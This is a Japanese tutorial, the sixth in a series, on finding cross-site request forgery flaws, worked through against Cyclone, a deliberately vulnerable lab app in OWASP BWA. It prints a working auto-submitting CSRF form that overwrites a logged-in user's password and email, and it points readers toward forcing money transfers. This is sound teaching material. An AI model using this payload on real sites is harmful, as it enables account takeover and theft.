



# 脆弱性を見つけよう クロスサイトリクエストフォージェリ編

第6回目はクロスサイトリクエストフォージェリの脆弱性を取り上げます。

クロスサイトリクエストフォージェリ（CSRF）とは、サイト上の処理をサーバー側で受け付ける際に、サイト利用者からの正規のリクエストであるか検証していなかった場合、攻撃者に誘導された利用者が意図しない処理を実行させられてしまう問題です。

## 検出方法

CSRFの対象になる機能は、ブログへのコメント投稿やショッピングサイトでの決済、アカウント情報の更新など、Webアプリケーションのリソースに変化を与える機能です。ここではサイト利用者にとって重要になる、ログイン後の機能を対象とします。

CSRFの脆弱性を見つけるには以下の手順でサイトの挙動を確認します。

1. ログイン後にリソースに変化を与える機能があるか
2. 機能の実行時に次のような検証がないか、または検証を回避できるか
   * リクエストに付与された推測困難なトークンによる検証
   * リクエストのRefererヘッダの値による検証
   * パスワードの再入力
3. 罠サイトからのリクエストにより処理を強制できるか

今回はOWASP BWAの「Cyclone」という架空の送金サービスを対象に調査を行ないます。まずはアカウントを作成してログインしてみましょう。



Cycloneにログインするとアカウント情報の更新機能を利用できます。更新時のリクエストにはCSRF対策用のトークンらしき値が付与されています。



このトークンはアクセスするたびに変化します。規則性が見られないので生成される値の推測もできません。しかし、トークンの一部を書き換えたり消したり、パラメータごと削除しても処理が完了しました。どうやらサーバー側でトークンを検証していないようです。Refererヘッダを送らなくても処理が完了したので、この機能にはCSRFの脆弱性がありそうです。

## 実証

CSRFにより処理を強制きることを、罠サイトを作って確認しましょう。以下のようなHTMLのサイトに利用者をアクセスさせることで、アカウント情報の更新リクエストを強制できます。


```markup
<form action="http://192.168.161.128/cyclone/users/101" method="POST">
    <input type="hidden" name="_method" value="put" />
    <input type="hidden" name="user[name]" value="hacker" />
    <input type="hidden" name="user[email]" value="hacker@example.com" />
    <input type="hidden" name="user[password]" value="hack123" />
    <input type="hidden" name="user[password_confirmation]" value="hack123" />
    <input type="hidden" name="user[profile_statement]" value="Hacked!" />
</form>
<script>document.forms[0].submit()</script>
```


実際の攻撃ではこのようなHTMLを攻撃者のWebサーバーに配置して、ログイン済みの利用者にアクセスさせます。攻撃を再現するために、このHTMLファイルをCycloneにログインしているブラウザで読み込みます。



HTMLファイルを読み込むと自動的にリクエストが送信されました。アカウント情報も更新されると思います。攻撃者の思い通りにパスワードが更新されるので、アカウントの乗っ取りに発展するかもしれません。重要情報の更新機能にCSRFの脆弱性があると被害の影響は大きくなります。


Cycloneには他にもCSRFの対象になる機能があります。もし送金機能にCSRFの脆弱性があれば、攻撃者の口座へ勝手に送金させる、なんてこともできそうです。脆弱性がないか確認してみてください。また、ファイルをアップロードする機能もあります。CSRFでファイルをアップロードさせたい場合は、[XMLHttpRequest](https://developer.mozilla.org/ja/docs/Web/API/XMLHttpRequest)を用いてリクエストを送信するような罠サイトを作ってみてください。

次回も一つ脆弱性を取り上げ、その見つけ方を紹介します。

